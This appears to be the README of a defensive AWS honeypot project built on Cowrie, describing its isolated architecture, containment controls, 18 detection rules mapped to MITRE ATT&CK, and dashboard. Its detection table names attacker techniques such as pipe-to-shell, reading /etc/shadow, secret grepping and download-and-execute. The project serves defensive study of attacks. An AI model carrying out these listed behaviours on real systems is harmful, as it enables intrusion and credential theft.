# AWS HoneyTrap — Cloud Deception & Automated Threat Intelligence

[](https://github.com/ahmedhany-cys/aws-honeytrap/actions/workflows/ci.yml)


An SSH/Telnet honeypot platform for AWS. A hardened **Cowrie** decoy captures attacker behaviour. An event-driven pipeline (**S3 → EventBridge → Lambda**) then:

* parses and redacts the telemetry;
* runs **18 detection rules**;
* maps behaviour to **MITRE ATT&CK v20** with evidence;
* optionally enriches IPs with free threat intelligence;
* raises SNS alerts.

A **Streamlit dashboard** lets an analyst investigate attackers and export incident reports. Everything is defined in **Terraform**, sized for the AWS Free Tier, and tested in CI, including live attack simulations against the containerised honeypot.

> **Status, stated plainly**
> * ✅ Built, run and tested **locally**: the honeypot captured real Cowrie events from controlled simulations, the detections fired, and the dashboard rendered.
> * ✅ `terraform validate`, tflint (0 issues), Checkov (210 passed / 0 failed / 27 justified skips) and a **read-only `terraform plan` against the target AWS account** (80 resources) all succeed.
> * ⏸️ **Not deployed to AWS yet.** `terraform apply` creates a publicly exposed, billable sensor and is waiting for the account owner's explicit approval. No screenshot or number in this README comes from live internet traffic.
> * Every dataset is labelled: **SIMULATION** (our own scripts against our own honeypot) or **SYNTHETIC** (generated demo data from RFC 5737 documentation IP ranges).

---

## Contents

[Scenario](#fictional-incident-scenario) · [Architecture](#architecture) · [Security controls](#security-controls) · [Detections](#detection-capabilities) · [ATT&CK](#mitre-attck-mapping) · [Dashboard](#dashboard) · [Quick start](#quick-start-local-no-aws-needed) · [AWS deployment](#aws-deployment) · [Testing](#testing) · [Example investigation](#example-investigation) · [Cost](#cost-considerations) · [Limitations](#limitations) · [Roadmap](#future-improvements)

## Fictional incident scenario

*Northwind Freight* (a fictional logistics company) suffered a breach last quarter. A forgotten staging VM with a weak `root` password was compromised within hours of being exposed, and was used to mine cryptocurrency and scan the internal network.

The security team wants to know **who is attacking SSH services right now, with which credentials, and what they do once they get in**. They want this without putting any real asset at risk. They also want detections they can reuse in production, backed by evidence and mapped to ATT&CK.

**The business problem.** Production logs show *attempts*, but they rarely show the attacker's full intent after login. A decoy that lets attackers "succeed" into an emulated shell captures the whole kill chain:

* the credential lists they use;
* their reconnaissance;
* their payload URLs;
* their persistence tricks.

It does this at zero risk, provided the decoy is properly isolated.

## Technical objectives

1. Capture SSH/Telnet attacks, including credentials, commands, downloads, tunnelling attempts and session recordings, without ever executing attacker input.
2. Contain the decoy completely: no lateral movement, no outbound attacks, and no reachable AWS credentials.
3. Turn raw telemetry into **evidence-backed** alerts with severities and ATT&CK techniques.
4. Never present simulated or synthetic data as real attacker activity.
5. Stay within the Free Tier, and keep every cost-relevant decision explicit.

## Architecture



| AWS service | Role | Why / cost |
|---|---|---|
| **VPC** (dedicated), NACL, security group | Isolates the sensor. Ingress 22 (+23 optional). Egress **only 443 to the S3 prefix list** | Free |
| **S3 gateway endpoint** | The only path out of the VPC, with a policy limited to HoneyTrap buckets and the AL2023 repo | Free (no NAT gateway) |
| **EC2** t3.micro (AL2023) | Runs the Cowrie container plus the host-side shipper. IMDSv2 with hop limit 1, encrypted gp3, standard CPU credits | Free Tier eligible |
| **S3** (telemetry, artifacts) | Raw/processed/evidence storage. SSE-S3, TLS-only, versioning, lifecycle expiry | Pennies |
| **EventBridge** | S3 `Object Created` → processor. Hourly schedule → correlator | Free |
| **Lambda** ×2 (Python 3.12, arm64) | Parse, redact, detect, enrich, alert, correlate. Secrets read from SSM | Always free |
| **SNS** | High/Critical alert notifications (SSE) | Free tier |
| **SQS** | Dead-letter queue for failed events | Free tier |
| **CloudWatch** | 14-day logs, EMF metrics, 5 alarms (errors, DLQ, EC2 status, *no telemetry for 3 h*) | Free tier |
| **Athena + Glue** | Partition-projected tables over processed data. 100 MB/query cap. 6 saved queries | ~$0 |
| **SSM Parameter Store** | SecureString: HMAC key, optional API keys | Free |
| **IAM** | One least-privilege role per component, scoped to S3 prefixes | Free |
| **AWS Budgets** | Project + account guardrail budgets | Free |

The data flow, component responsibilities and design trade-offs are in [architecture/architecture.md](architecture/architecture.md).

## Security controls

The decoy is designed to be attacked. The controls make sure that **nothing beyond the emulator is reachable**. Each one is enforced in code and checked by a test ([docs/security.md](docs/security.md)):

| Layer | Control |
|---|---|
| Emulation | Cowrie parses commands in Python and never hands them to a real shell. Downloads to non-global addresses are refused by Cowrie itself. |
| Container | Non-root (uid 10001), read-only rootfs, `--cap-drop ALL`, `no-new-privileges`, memory/CPU/PID limits. |
| Host egress | iptables `DOCKER-USER` drops **every new outbound connection** from the container, including DNS and 169.254.169.254. |
| Network egress | The security group allows only TCP/443 to the S3 prefix list. No NAT. The endpoint policy blocks attacker-owned buckets. |
| Credentials | IMDSv2 hop limit 1, so containers can't get tokens. The role can only `PutObject` under its own sensor prefix. There are no access keys anywhere. |
| Management | The real `sshd` is **disabled**. Optional: key-only on port 22022 from a single validated `/32`. |
| Data | Clear-text attacker passwords exist only in `raw/` (encrypted, private, 14–30-day expiry). Everything downstream sees a mask plus a **keyed HMAC** fingerprint. |
| Decoys | Fake files use obviously fake `decoy-…` values. No real credential exists on the host. |
| Supply chain / CI | gitleaks, pip-audit, Checkov, tflint, ruff. The Lambda package has zero third-party dependencies. |

## Detection capabilities

| Rule | Detects | Severity | ATT&CK |
|---|---|---|---|
| HT-AUTH-001 | SSH/Telnet brute force (≥10 failures / 10 min) | Medium → High (≥50) | T1110, T1110.001 |
| HT-AUTH-002 | Password spraying (one password, ≥5 users) | Medium | T1110.003 |
| HT-AUTH-003 | Repeated credential combination | Low | T1110 |
| HT-AUTH-004 | Credential-stuffing pattern (combo list) | Medium | T1110.004 *(low confidence)* |
| HT-AUTH-005 | Same credential pair from ≥5 IPs (botnet wordlist) | Informational | T1110 |
| HT-AUTH-006 | Successful login to the decoy | Medium | T1078, T1078.001 |
| HT-NET-001 | High-frequency connections (≥20 / min) | Low | T1595 |
| HT-NET-002 | Multiple sessions from one IP (≥5 / 24 h) | Low → Medium | — |
| HT-NET-003 | SSH tunnelling (direct-tcpip) | Medium | T1090, T1572 |
| HT-CMD-001 | Reconnaissance / discovery | Low → Medium | T1082, T1033, T1016, T1049, T1057, T1083, T1087.001, T1518.001 |
| HT-CMD-002 | Suspicious execution (decode, pipe-to-shell, /tmp exec, chmod +x) | Medium | T1140, T1059.004, T1222.002 |
| HT-CMD-003 | Persistence (SSH keys, cron, useradd, systemd, rc, passwd) | High | T1098.004, T1053.003, T1136.001, T1543.002, T1037.004, T1098 |
| HT-CMD-004 | Defense evasion / impairment | Medium → High | T1070.003, T1690, T1070.004, T1686, T1685 |
| HT-CMD-005 | Credential access (/etc/shadow, secret grepping) | Medium | T1003.008, T1552.001 |
| HT-CMD-006 | Scanning *from* the decoy | High | T1046, T1018 |
| HT-CMD-007 | Cryptominer indicators | High | T1496.001 |
| HT-DL-001 | Download / ingress tool transfer | High | T1105 |
| HT-DL-002 | **Download and execute** chain in one session | **Critical** | T1105 + T1059.004 |

**How the severity model works:**

* Each rule has a base severity.
* A **real** AbuseIPDB score ≥ 75 or ≥ 5 VirusTotal detections raises it by one level. Synthetic enrichment never does.
* Alerts at High or above go to SNS.
* Thresholds are configurable in TOML.
* Alert IDs are deterministic, so re-processing a batch updates an alert instead of duplicating it.

Full logic and design notes: **[docs/detections.md](docs/detections.md)**.

## MITRE ATT&CK mapping

* **Generated from MITRE's official STIX bundle** ([scripts/update_mitre_catalog.py](scripts/update_mitre_catalog.py)), not typed by hand. The script refuses revoked or deprecated IDs. That check caught that **ATT&CK v20 revoked T1562.004** (now T1686) and split *Defense Evasion* into *Stealth* and *Defense Impairment*.
* **A mapping requires evidence**, such as the exact command line or event, and carries a confidence level. T1110.004 Credential Stuffing is deliberately *low* confidence, because a honeypot can't prove the pairs came from a breach.
* **Inbound internet scanning** maps to *Reconnaissance* (T1595). T1046 is reserved for scanning launched *from inside* the decoy, which is the technically correct distinction.

## Dashboard

A dark-themed Streamlit + Plotly app with seven pages. It reads the same storage layout the Lambdas write: local directories, or `s3://<bucket>`. Global filters cover data origin, date, IP, severity, classification and event type. Every page shows a data-origin banner.

The data shown below is **SIMULATION** (272 real Cowrie events from the 8 controlled scenarios) plus **SYNTHETIC DEMO** (11,555 generated events, clearly labelled, including synthetic geo).

| | |
|---|---|
| **Overview**<br> | **Attack intelligence**<br> |
| **Attacker investigation**<br> | **MITRE ATT&CK mapping**<br> |
| **Detection / alert center**<br> | **Evidence explorer**<br> |
| **AWS architecture (design)**<br> | **Terraform plan & IaC security**<br> |
